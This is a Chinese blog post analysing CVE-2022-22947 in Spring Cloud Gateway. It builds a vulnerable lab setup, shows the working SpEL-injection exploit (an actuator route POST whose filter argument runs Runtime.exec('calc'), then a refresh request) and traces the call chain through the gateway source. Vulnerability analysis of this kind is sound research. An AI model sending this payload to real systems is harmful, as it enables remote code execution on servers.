






# CVE-2022-22947 Spring Cloud Gateway 漏洞浅析 - admin-神风 - 博客园

> 原文：[`www.cnblogs.com/wh4am1/p/16457533.html`](https://www.cnblogs.com/wh4am1/p/16457533.html)

### 创建 SpringCloud Gateway 项目

这里我使用 IDEA 开发工具创建 SpringCloud Gateway 项目，来复现本次的漏洞。

首先新建一个项目，选中 Spring Initializr 并点击下一步


之后在选择依赖的时候选择 Spring Cloud Routing -> Gateway 和 Ops->Spring Boot Actuator 两个选项


之后的 pom 文件中大致如下：

```
<?xml version="1.0" encoding="UTF-8"?>
<project  
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.6.4</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.springcloud</groupId>
    <artifactId>gatewaydemo</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>gatewaydemo</name>
    <description>Demo project for Spring Boot</description>
    <properties>
        <java.version>1.8</java.version>
        <spring-cloud.version>2021.0.1</spring-cloud.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.springframework.cloud</groupId>
            <artifactId>spring-cloud-starter-gateway</artifactId>
            <version>3.1.0</version>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-actuator</artifactId>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>

</project> 
```

记得一定要删掉 spring-cloud 的 dependencyManagement 依赖，并修改 gateway 的版本为有漏洞的版本，不然会报 SpelEvaluationException 错误

### 部署路由服务

先来看一下 Gateway 官方给出的架构图


主要分为一下三个组成：

*   Route（路由）：这是网关的基本构建块。它由一个 ID，一个目标 URI，一组断言和一组过滤器定义。如果断言为真，则路由匹配。
*   Predicate（断言）：这是一个 Java 8 的 Predicate。输入类型是一个 ServerWebExchange。我们可以使用它来匹配来自 HTTP 请求的任何内容，例如 headers 或参数。
*   Filter（过滤器）：这是 org.springframework.cloud.gateway.filter.GatewayFilter 的实例，我们可以使用它修改请求和响应。

Gateway 可以处理很多请求的转发，如上述架构图种，Gateway 客户端发送请求给 Spring Cloud Gateway，然后在 Mapping 中找到与之匹配的请求，并发送到相应的 Gateway Web Handler，再经过一系列定义的 Filter 中，到达代理服务层面。并将其获取的内容反馈给 Gateway Client 请求。

根据之前用 IDEA 创建的项目，可以尝试编写第一个转发 demo。

内容很简单，找到 spring 的配置文件 application.yml，编写一个转发到本地 8080 端口上的路由

```
server:
    port: 8096

#微服务名称
spring:
    cloud:
        gateway:
            routes:
                - id: find
                  uri: http://127.0.0.1:8080
                  predicates:
                  - Path=/images/index.html 
```

至此就编写完成了，当访问本地 http://localhost:8096/images/index.html 的时候，Spring Cloud Gateway 就会将请求内容自动解析到 8080 端口上开启的服务。

### 漏洞复现

复现漏洞之前呢，需要将 gateway 接口向 actuator 暴露，因此需要在 application.yml 文件中再添加如下配置：

```
management:
  endpoint:
    gateway:
      enabled: true
  endpoints:
    web:
      exposure:
        include: gateway 
```

之后启动服务，访问 http://localhost:8096/actuator/gateway/routes 就可以看到注册好的服务了

之后用 POST 请求如下地址，来添加一个自定义的路由：

```
POST /actuator/gateway/routes/hacktest HTTP/1.1
Host: localhost:8096
Content-Type: application/json
Content-Length: 185

{
	"id":"hacktest",
	"filters":[{
		"name":"RewritePath",
		"args":{
			"_genkey_0": "#{T(java.lang.Runtime).getRuntime().exec(\"calc\")}",
			"_genkey_1": "/${path}"
		}
	}]
} 
```

添加完成之后目标会返回一个 201 Created 状态码，之后继续访问/refresh 来刷新路由

```
POST /actuator/gateway/refresh HTTP/1.1
Host: localhost:8096 
```



### Gateway 源码分析

漏洞分析之前首先就得了解 Gateway 是如何搭配上 Actuator 和 Gateway 是如何解析路由中的 Route 的。

#### RouteLocator

RouteLocator 是路由定位器，是用来获取路由的方法。其实现该接口的主要组成类有多种，但本次分析漏洞只需要重点了解一下两种：

*   RouteDefinitionRouteLocator：基于路由定义的定位器，也是 RouteLocator 的主要实现类
*   CachingRouteLocator 基于缓存的路由定位器
*   CompositeRouteLocator：基于组合方式的路由定位器

##### RouteDefinitionRouteLocator

org.springframework.cloud.gateway.route.RouteDefinitionRouteLocator 是 RouteLocator 的一个实现类，其主要从 RouteDefinitionLocator 会通过 getRouteDefinitions()方法来获取 RouteDefinition，并将其转换成 Route。



再从代码层面来仔细看看这个转换的过程

```
public Flux<Route> getRoutes() {
    Flux<Route> routes = this.routeDefinitionLocator.getRouteDefinitions().map(this::convertToRoute);
    if (!this.gatewayProperties.isFailOnRouteDefinitionError()) {
        routes = routes.onErrorContinue((error, obj) -> {
            if (this.logger.isWarnEnabled()) {
                this.logger.warn("RouteDefinition id " + ((RouteDefinition)obj).getId() + " will be ignored. Definition has invalid configs, " + error.getMessage());
            }

        });
    }

    return routes.map((route) -> {
        if (this.logger.isDebugEnabled()) {
            this.logger.debug("RouteDefinition matched: " + route.getId());
        }

        return route;
    });
} 
```

getRoutes 方法首先通过 this.routeDefinitionLocator.getRouteDefinitions()获取到了所有的 RouteDefinition

之后再通过 this::convertToRoute 方法将每个 RouteDefinition 转换成 Route

##### CachingRouteLocator

org.springframework.cloud.gateway.route.CachingRouteLocator，缓存路由的 RouteLocator 实现

该 RouteLocator 实现了 ApplicationListener<refreshroutesevent>接口，主要是监听 RefreshRoutesEvent 事件。</refreshroutesevent>

##### CompositeRouoteLocator

这个上面有粗略介绍过，这是一个组合的路由定位器，其主要的方式是把 RouteDefinitionRouteLocator 和自定义的 Route Locator 作为自己的 delegates，在需要取所有 Route 的时候，就会委派自己的 delegates 去取，然后将其结果合并返回。

#### RefreshRoutesEvent

这个就不过多解释了，就是一个刷新路由的事件。

#### 源码分析总结

用最后的话分析就是 CachingRouteLocator 它包装了 CompositeRouteLocator，而 CompositeRouteLocator 则组合了 RouteDefinitionRouteLocator。而 CachingRouteLocator 集成了 RefreshRoutesEvent 接口，所以之后的刷新请求就会走到 CachingRouteLocator 中处理。

### 漏洞分析

先找到 org.springframework.cloud.gateway.actuate.GatewayControllerEndpoint 类，该类是 Actuator 访问的 Controller 处理器，这里添加路由我就不往下分析了，直接看刷新路由的过程。

GatewayControllerEndpoint 类集成了 org.springframework.cloud.gateway.actuate.AbstractGatewayControllerEndpoint 类，而该类里面，有一个定义好的 Post 请求，可以发送 RefreshRoutesEvent 刷新路由。

```
@PostMapping({"/refresh"})
public Mono<Void> refresh() {
    this.publisher.publishEvent(new RefreshRoutesEvent(this));
    return Mono.empty();
} 
```

其发送的就是一个 RefreshRouteEvent 事件。

之后流程会进入到 org.springframework.context.support.AbstractApplicationContext#publishEvent 中处理


之后 RefreshRouteEvent 会按照正常流程进入 multicastEvent 中，这里我直接跟到图中显示的 doInvokeListener 方法中


这里就会直接进入到 org.springframework.cloud.gateway.route.CachingRouteLocator#onApplicationEvent 中

而在 onApplicationEvent 方法中又会调用 this.fetch()

```
private Flux<Route> fetch() {
    return this.delegate.getRoutes().sort(AnnotationAwareOrderComparator.INSTANCE);
} 
```



之后程序又跟入 org.springframework.cloud.gateway.route.CompositeRouteLocator#getRoutes



这里又继续调用了 RouteDefinitionRouteLocator#getRoutes 方法，就到了我们刚才分析源码的时候提到过的流程，在这里会调用 getRouteDefinitions()获取 RouteDefinition 来转换成 Route。


这里进入 convertToRoute 方法后重点关注 RouteDefinitionRouteLocator#getFilters 方法

```
private List<GatewayFilter> getFilters(RouteDefinition routeDefinition) {
    List<GatewayFilter> filters = new ArrayList();
    if (!this.gatewayProperties.getDefaultFilters().isEmpty()) {
        filters.addAll(this.loadGatewayFilters(routeDefinition.getId(), new ArrayList(this.gatewayProperties.getDefaultFilters())));
    }

    if (!routeDefinition.getFilters().isEmpty()) {
        filters.addAll(this.loadGatewayFilters(routeDefinition.getId(), new ArrayList(routeDefinition.getFilters())));
    }

    AnnotationAwareOrderComparator.sort(filters);
    return filters;
} 
```

这里会调用 this.loadGatewayFilters()中通过 GatewayFilterFactory 来创建一个 Filter

```
factory.apply(configuration) 
```

但是在创建 Filter 之前，也就是封装 configuration 的时候，在 bind 的信息的时候，我们的 Spel 表达式执行了

```
Object configuration = this.configurationService.with(factory).name(definition.getName()).properties(definition.getArgs()).eventFunction((bound, properties) -> {
    return new FilterArgsEvent(this, id, (Map)properties);
}).bind(); 
```

进入到 org.springframework.cloud.gateway.support.ConfigurationService#bind 方法中

跟踪发现，在 bind 的方法里面会调用 normalizeProperties 方法

```
protected Map<String, Object> normalizeProperties() {
    return this.service.beanFactory != null ? ((ShortcutConfigurable)this.configurable).shortcutType().normalize(this.properties, (ShortcutConfigurable)this.configurable, this.service.parser, this.service.beanFactory) : super.normalizeProperties();
} 
```

之后就进入 org.springframework.cloud.gateway.support.ShortcutConfigurable$ShortcutType$1#normalize 方法



流程走到 org.springframework.expression.spel.standard.SpelExpression.getValue 中

```
static Object getValue(SpelExpressionParser parser, BeanFactory beanFactory, String entryValue) {
    String rawValue = entryValue;
    if (entryValue != null) {
        rawValue = entryValue.trim();
    }

    Object value;
    if (rawValue != null && rawValue.startsWith("#{") && entryValue.endsWith("}")) {
        StandardEvaluationContext context = new StandardEvaluationContext();
        context.setBeanResolver(new BeanFactoryResolver(beanFactory));
        Expression expression = parser.parseExpression(entryValue, new TemplateParserContext());
        value = expression.getValue(context);
    } else {
        value = entryValue;
    }

    return value;
} 
```

而调用 getValue 传入的 entryValue 参数内容就是恶意的 Spel 表达式

```
#{T(java.lang.Runtime).getRuntime().exec("calc")} 
```



至此漏洞形成，弹出 Calc！

最后的调用堆栈大致如下：

```
CachingRouteLocator#onApplicationEvent
	CachingRouteLocator#fetch
		CompositeRouteLocator#getRoutes
			RouteDefinitionRouteLocator#getRoutes
				RouteDefinitionRouteLocator#convertToRoute
					RouteDefinitionRouteLocator#getFilters
						RouteDefinitionRouteLocator#loadGatewayFilters
							ConfigurationService$AbstractBuilder#bind
								ConfigurationService$ConfigurableBuilder#normalizeProperties
									ShortcutConfigurable$ShortcutType$1#normalize
										ShortcutConfigurable#getValue 
```

### Reference

[1].[`github.com/spring-cloud/spring-cloud-gateway/commit/337cef276bfd8c59fb421bfe7377a9e19c68fe1e`](https://github.com/spring-cloud/spring-cloud-gateway/commit/337cef276bfd8c59fb421bfe7377a9e19c68fe1e)

[2].[`wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/`](https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/)

[3].[`github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947`](https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947)

[4].[`blog.csdn.net/weixin_42073629/article/details/106912670`](https://blog.csdn.net/weixin_42073629/article/details/106912670)

[5].[`y4er.com/post/cve-2022-22947-springcloud-gateway-spel-rce-echo-response/`](https://y4er.com/post/cve-2022-22947-springcloud-gateway-spel-rce-echo-response/)

[6].[`zhuanlan.zhihu.com/p/359395390`](https://zhuanlan.zhihu.com/p/359395390)